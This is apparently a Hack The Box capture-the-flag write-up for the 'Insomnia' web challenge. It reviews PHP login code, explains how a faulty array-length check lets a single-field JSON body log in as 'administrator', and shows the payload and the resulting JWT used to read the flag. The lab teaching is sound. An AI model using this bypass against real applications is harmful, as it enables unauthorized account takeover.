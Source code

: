 ```yaml
---
title: Insomnia - Hack The Box
date: 2024-10-23
---
```


# Insomnia

![Insomnia - thumbnail](/ctf/hack-the-box/challenges/web/insomnia/insomnia-thumbnail.gif)

## Box description

Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams
and weaving sleepless tales.

## Challenge description

The web application provides several pages: Home, Sign-up, Sign-in, and Profile. Users can create accounts via the
Sign-up form and log in using the Sign-in page.

Once logged in, users are redirected to their profile page. Here's an example of the profile page after login:

![Insomnia - profile page](/ctf/hack-the-box/challenges/web/insomnia/insomnia-profile-page.png)

The challenge lies in exploiting the login mechanism to gain access to the administrator's profile and retrieve the
flag.

## Code review

### Profile controller

The profile controller contains the logic for rendering the profile page, including how the flag is revealed to
administrators.

```php:line-numbers {7}
$token = (string) $_COOKIE["token"] ?? null;
$flag = file_get_contents(APPPATH . "/../flag.txt");
if (isset($token)) {
    $key = (string) getenv("JWT_SECRET");
    $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
    $username = $jwt_decode->username;
    if ($username == "administrator") {
        return view("ProfilePage", [
            "username" => $username,
            "content" => $flag,
        ]);
    } else {
        $content = "Haven't seen you for a while";
        return view("ProfilePage", [
            "username" => $username,
            "content" => $content,
        ]);
    }
}
```

The flag is only displayed if the `username` in the decoded **JWT** token is **administrator**.

### User controller

The **login** function in the user controller contains a vulnerability that allows bypassing the login process with a
crafted payload.

```php:line-numbers {5,8}
public function login()
{
    $db = db_connect();
    $json_data = request()->getJSON(true);
    if (!count($json_data) == 2) {
        return $this->respond("Please provide username and password", 404);
    }
    $query = $db->table("users")->getWhere($json_data, 1, 0);
    $result = $query->getRowArray();
    if (!$result) {
        return $this->respond("User not found", 404);
    } else {
        $key = (string) getenv("JWT_SECRET");
        $iat = time();
        $exp = $iat + 36000;
        $headers = [
            "alg" => "HS256",
            "typ" => "JWT",
        ];
        $payload = [
            "iat" => $iat,
            "exp" => $exp,
            "username" => $result["username"],
        ];
        $token = JWT::encode($payload, $key, "HS256");

        $response = [
            "message" => "Login Succesful",
            "token" => $token,
        ];
        return $this->respond($response, 200);
    }
}
```

Looking at the following condition `if (!count($json_data) == 2)` the login function expects an array with two elements.
But using `!count($json_data) == 2` instead of `count($json_data) !== 2` will always return false. So we can send an
array with one element to bypass the login.

To ensure that we can send our payload we need to check the `getWhere` function in the user controller. After digging
into the code we found that this function add a `where` clause to the query builder. So we can send a payload with only
the username field to bypass the login.

## Exploit

### Step 1: Bypass the Login

To exploit the vulnerability, we send a POST request to the login endpoint with a payload containing only the username:

```json
{
    "username": "administrator"
}
```

Using **Burp Suite**, we send this request and receive a successful response containing a JWT token for the
administrator:

```json
{
    "message": "Login Succesful",
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3Mjk2ODM3NDUsImV4cCI6MTcyOTcxOTc0NSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Jn6DFrXpONJqBsVO1irVTjd4cpHkd7d8LaAwrlqWsao"
}
```

### Step 2: Access the Administrator Profile

Next, we set the JWT token in our browser's cookies and reload the profile page. The application verifies the token,
sees that the username is administrator, and displays the flag.

![Insomnia - flag](/ctf/hack-the-box/challenges/web/insomnia/insomnia-flag.png)

We successfully retrieve the flag! Now we can try our payload on the real **HTB** box to retrieve the flag

![Insomnia - pwned](/ctf/hack-the-box/challenges/web/insomnia/insomnia-pwned.png)
